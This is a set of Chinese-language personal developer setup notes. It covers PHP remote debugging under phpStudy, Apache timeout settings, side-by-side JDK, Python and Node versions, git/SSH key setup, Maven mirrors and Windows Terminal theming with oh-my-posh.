>     - 
>     - 
>     - 
>
> - 

#### 远程调试小皮面板中单个php文件

> 1. 首先使用小皮面包运行项目设置好名称和运行的端口号
>
>     
>
> 2. 测试可以正常访问后，使用phpstorm打开这个项目
>
>     
>
> 3. 打开完成后配置php使用的版本和小皮面板一致
>
>     
>
> 4. 然后配置远程服务器地址，要和第一步的名称和端口一致
>
>     
>
> 5. 配置密匙，密匙再php.ini配置文件最底下
>
>     
>
> 6. 新建一个文件入口
>
>     
>
> 7. 然后新疆一个Web Page，然后设置好入口，入口为使用小皮面包可正常访问的入口，
>
>     **可以点击`validate`测试入是否有用**
>
>     
>
>     
>
> 8. 最后点击以dubug模式启动项目
>
>     


#### **配置断点时间过长自动断开连接**

> - 打开apache所在位置
>
>     - ```nginx
>         D:\Program_Files\phpstudy_pro\Extensions\Apache2.4.39\conf
>         ```
>
> - 编辑`httpd.conf`文件
>
>     - ```nginx
>         Include conf/extra/httpd-default.conf	# 将注释去掉
>         Include conf/extra/httpd-fcgid.conf		# 添加此行
>         ```
>
> - 编辑`httpd-default.conf`文件
>
>     - ```nginx
>         D:\Program_Files\phpstudy_pro\Extensions\Apache2.4.39\conf\extra
>         ```
>
>     - ```nginx
>         Timeout 3600
>         KeepAlive On
>         MaxKeepAliveRequests 0
>         KeepAliveTimeout 3600
>         ```
>
> - **在extra目录下创建httpd-fcgid.conf**
>
>     - ```nginx
>         ProcessLifeTime 3600
>         FcgidIOTimeout 3600
>         FcgidConnectTimeout 3600
>         FcgidOutputBufferSize 128
>         FcgidMaxRequestsPerProcess 1000
>         FcgidMinProcessesPerClass 0 
>         FcgidMaxProcesses 16 
>         FcgidMaxRequestLen 268435456   
>         FcgidInitialEnv PHP_FCGI_MAX_REQUESTS 1000
>         IPCConnectTimeout 3600
>         IPCCommTimeout 3600
>         FcgidIdleTimeout 3600
>         FcgidBusyTimeout 60000
>         FcgidBusyScanInterval 120
>         FcgidInitialEnv PHPRC "D:\Program_Files\phpstudy_pro\Extensions\php\php7.3.4nts" 
>         AddHandler fcgid-script .php
>         ```
>
>         

> - 打开php.ini文件位置
>
>     - ```nginx
>         D:\Program_Files\phpstudy_pro\Extensions\php\php7.3.4nts
>         ```
>
> - 编辑`php.ini`添加如下内容
>
>     - ```nginx
>         max_execution_time = 3600
>         ```


### 配置多个java环境

> 下载好需要的版本包如：jdk1.8.0_152、jdk-10.0.2、jdk17.0.7
>
> 各版本下载地址：https://www.oracle.com/java/technologies/downloads/archive/
>
> ```nginx
> # 存放位置
> E:\Program_Files\Java\jdk1.8.0_152
> E:\Program_Files\Java\jdk-10.0.2
> E:\Program_Files\Java\jdk-17
> ```
>
> 

**将各个版本中`bin`目录下的`java.exe、javac.exe`更改名称**

**如：`java8.exe、javac8.exe`,改成什么都行，到时候cmd和powerShell调用java就是用个名字**

```nginx
jdk1.8.0_152
├─ COPYRIGHT
├─ LICENSE
├─ README.html
├─ THIRDPARTYLICENSEREADME-JAVAFX.txt
├─ THIRDPARTYLICENSEREADME.txt
├─ bin
	├─ java8.exe
	├─ javac8.exe
├─ db
├─ include
├─ javafx-src.zip
├─ jre
├─ lib
├─ release
├─ src.zip
```

```nginx
jdk-10.0.2
├─ COPYRIGHT
├─ README.html
├─ bin
	├─ java10.exe
	├─ javac10.exe
├─ conf
├─ include
├─ jmods
├─ jre
├─ legal
├─ lib
└─ release
```

> **jdk17它是没有jre的，如果想要把jre生成出来可以使用cmd或者powerShell执行以下命令，（统一标准生成出来好看点）**
>
> ```nginx
> bin\jlink.exe --module-path jmods --add-modules java.desktop --output jre
> ```

```nginx
jdk-17
├─ LICENSE
├─ README
├─ bin
	├─ java17.exe
	├─ javac17.exe
├─ conf
├─ include
├─ jmods
├─ jre
├─ legal
├─ lib
└─ release
```

**然后再系统环境变量中添加如下环境**

```nginx
# 新建系统环境变量，以下对应名称和值
JAVA_HOME_8
E:\Program_Files\Java\jdk1.8.0_152

JAVA_HOME_10
E:\Program_Files\Java\jdk-10.0.2

JAVA_HOME_10
E:\Program_Files\Java\jdk-17

```

```nginx
# 在path中添加环境变量
%JAVA_HOME_8%\bin
%JAVA_HOME_8%\jre\bin
%JAVA_HOME_10%\bin
%JAVA_HOME_10%\jre\bin
%JAVA_HOME_17%\bin
%JAVA_HOME_17%\jre\bin
```

> 指出环境变量配置完成，可以在cmd或者powerShell中自行测试
>
> ```nginx
> java8 -version
> javac8 -version
> java10 -version
> javac10 -version
> java17 -version
> javac17 -version
> ```
>
> ==注：如果没有输入内容，可以用管理员权限打开cmd或者powerShell进行尝试==

### 配置多个python环境

> 首先下载好两个环境的python，如：python2.7、python3.6、python3.10

==下载完成后将python2.7中的python.exe文件改名为python2.exe，也可以叫python2.7.exe==

```nginx
Python2.7
├─ DLLs
├─ Doc
├─ LICENSE.txt
├─ Lib
├─ NEWS.txt
├─ README.txt
├─ Scripts
├─ Tools
├─ include
├─ libs
├─ python2.exe
├─ pythonw.exe
├─ tcl
└─ w9xpopen.exe
```

==python3.6版本也是一个道理==

```nginx
Python3.6
├─ DLLs
├─ Doc
├─ LICENSE.txt
├─ Lib
├─ NEWS.txt
├─ Scripts
├─ Tools
├─ include
├─ libs
├─ python3.6.exe
├─ python3.dll
├─ python36.dll
├─ pythonw.exe
├─ tcl
└─ vcruntime140.dll
```

==python3.10版本也是一个道理==

```nginx
Python3.10
├─ DLLs
├─ Doc
├─ LICENSE.txt
├─ Lib
├─ NEWS.txt
├─ Scripts
├─ Tools
├─ include
├─ libs
├─ python.exe
├─ python3.dll
├─ python3.exe
├─ python310.dll
├─ tcl
├─ vcruntime140.dll
└─ vcruntime140_1.dll
```

==然后配置环境变量==

```nginx
# 在系统环境变量path中添加好两个版本的python位置
D:\Program Files\Python2.7
D:\Program Files\Python3.10
D:\Program Files\Python3.6

# 在添加pip的环境位置
D:\Program Files\Python2.7\Scripts
D:\Program Files\Python3.10\Scripts
D:\Program Files\Python3.6\Scripts

# 打开cmd或者powerShell，测试python2 和 python3 命令是否可以用
python2 --version
python3 --version
python3.6 --version

# 确定可用，然后更新pip引用，因为修改了python.exe，所有需要重新关联pip
python2 -m pip install --upgrade --force-reinstall pip
python3 -m pip install --upgrade --force-reinstall pip
python3.6 -m pip install --upgrade --force-reinstall pip

# 调用pip的方法,逐个分开方便管理
python2 使用 pip2
python3 使用 pip3
python3.6 使用 pip3.6

# 到此三个版本共存了
# 另外也可以使用这种方法配置多套环境
```


### sublime 安装中文

```nginx
# 输入快捷键
ctrl+shift+p
# 在打开的搜索框中输入，然后按回车。等待安装完成
install package control

# 选择【Preferences】菜单中的【Package control】选项

# 在搜索框中输入Install，选择【install package】，按回车，然后等待

# 输入
chinese

# 选择ChineseLocalization插件 然后等待即可完成安装
```


### 子系统

```nginx
# 查看所有已经安装的分发版本
wsl --list --all

# 查看正在运行的分发版本
wsl --list --running

# 删除指定的分发版本
wsl --unregister <DistributionName>

# 设置root密码
sudo passwd root
```


### 开始菜单

```nginx
# 本机位置
C:\ProgramData\Microsoft\Windows\Start Menu\Programs
```


### 安装配置node

```nginx
# 官网下node，一路下一步安装

# 在安装目录创建文件夹
node_cache
node_global

# 设置npm
npm config set prefix "D:\Program Files\nodejs\node_global"
npm config set cache "D:\Program Files\nodejs\node_cache"

# 设置npm源
npm config set registry https://registry.npm.taobao.org

# 测试（运行结束后，在node_global\node_modules中存在yarn文件）
npm i yarn -g

# 查看npm配置信息
npm config ls

# 如果全局安装的工具无法使用，需要确认环境变量中是否存在node_global
```

#### 配置多环境node

> 下载安装nvm：https://cloud.tencent.com/developer/tools/blog-entry?target=https%3A%2F%2Fgithub.com%2Fcoreybutler%2Fnvm-windows%2Freleases

- **安装的时候不能有中文路径**

- ```nginx
    # 配置源编辑setting.txt，在末尾添加（慢就配不）
        # node使用淘宝源
        node_mirror: http://npm.taobao.org/mirrors/node/ 
        # npm使用淘宝源
        npm_mirror: https://npm.taobao.org/mirrors/npm/
    
    
    # 测试
    nvm
    
    # 查看当前系统上存在和正在使用的node版本
    nvm list
    
    # 下载node其他版本
    nvm install 版本号
    
    # 切换版本（记得开管理员权限）
    nvm use 版本号
    ```

    

### git 设置本地用户

```nginx
# 设置账户名和邮箱（和远程没关系）
git config --global user.name 'peekaboo'
git config --global user.email 'peakednessvip@163.com'

# 进入指定目录
git init
git add test.txt
git commit -m "初始化"

```

#### git 连接GitHub

```nginx
# 创建SSH Key(生成公共秘钥)
ssh-keygen -t rsa -C 'peakednessvip@163.com' -f ~/.ssh/id_rsa_github

ssh-keygen -t rsa -C 'gitee邮箱号' -f ~/.ssh/id_rsa_gitee

# 将id_rsa_github.pub文件放在GitHub平台中
# 在account/settings中找到SSH and GPG keys，
# 点击NEW SSH key；其中的Title文本框请随便填，
# Key文本框填入id_rsa.pub中的内容。

# 关联远程仓库
git remote add origin git@github.com:nigthlife/study-note.git

git add .
git commit -m '初始化'
# 查看当前分支
git branch

# 创建分支
git branch new
# 切换分支
git checkout new
# 推送分支
git push origin
```


### 配置Maven

**setting.xml文件**

```xml
 <mirror>
      <id>alimaven</id>
      <mirrorOf>central</mirrorOf>
      <name>aliyun maven</name>
      <url>http://maven.aliyun.com/nexus/content/repositories/central/</url>
    </mirror>

 <localRepository>D:\Program Files\apache-maven-3.8.8\maven-repo</localRepository>

```

**检验配置：**

> mvn help:system

### 配置Windows terminal

```nginx
# 打开方式
win + r; 输入 wt

"defaults": {
    "useAcrylic": true,
        # 界面透明
        "acrylicOpacity": 0.1,
        "backgroundImage": "C:\\Users\\peekaboo\\Pictures\\apply\\710940.png",
        "backgroundImageOpacity": 0.5
},

# 安装winget
微软商店搜索应用安装

# 安装oh-my-posh
winget install oh-my-posh --id XP8K0HKJFRXGCK

# 查看安装路径
$PROFILE
# C:\Users\peekaboo\Documents\WindowsPowerShell\Microsoft.PowerShell_profile.ps1

# 主题所在位置
C:\Users\peekaboo\AppData\Local\Programs\oh-my-posh

# 使用记事本或者vscode设置主题
New-Item -Path $PROFILE -Type File -Force

# 二选一
notepad $PROFILE
CODE $PROFILE

# 预览所有主题
Get-PoshThemes

# 设置选用的主题
oh-my-posh init pwsh --config $env:POSH_THEMES_PATH\montys.omp.json | Invoke-Expression
cls

# 安装字体nerd font
https://www.nerdfonts.com/font-downloads
# 选择Agave Nerd Font

# 个人推荐主题
blue-owl
space

# 华丽的
cloud-native-azure
grandpa-style
sonicboom_dark
sonicboom_light
agnosterplus

agnoster
uew

# 不依赖字体
honukai
kali


```

**设置系统配色**

> settings.json 文件的 schemes 数组中定义配色方案

```nginx
{
    "name" : "Campbell",

    "cursorColor": "#FFFFFF",
    "selectionBackground": "#FFFFFF",

    "background" : "#0C0C0C",
    "foreground" : "#CCCCCC",

    "black" : "#0C0C0C",
    "blue" : "#0037DA",
    "cyan" : "#3A96DD",
    "green" : "#13A10E",
    "purple" : "#881798",
    "red" : "#C50F1F",
    "white" : "#CCCCCC",
    "yellow" : "#C19C00",
    "brightBlack" : "#767676",
    "brightBlue" : "#3B78FF",
    "brightCyan" : "#61D6D6",
    "brightGreen" : "#16C60C",
    "brightPurple" : "#B4009E",
    "brightRed" : "#E74856",
    "brightWhite" : "#F2F2F2",
    "brightYellow" : "#F9F1A5"
},

```


### PowerShell

```nginx
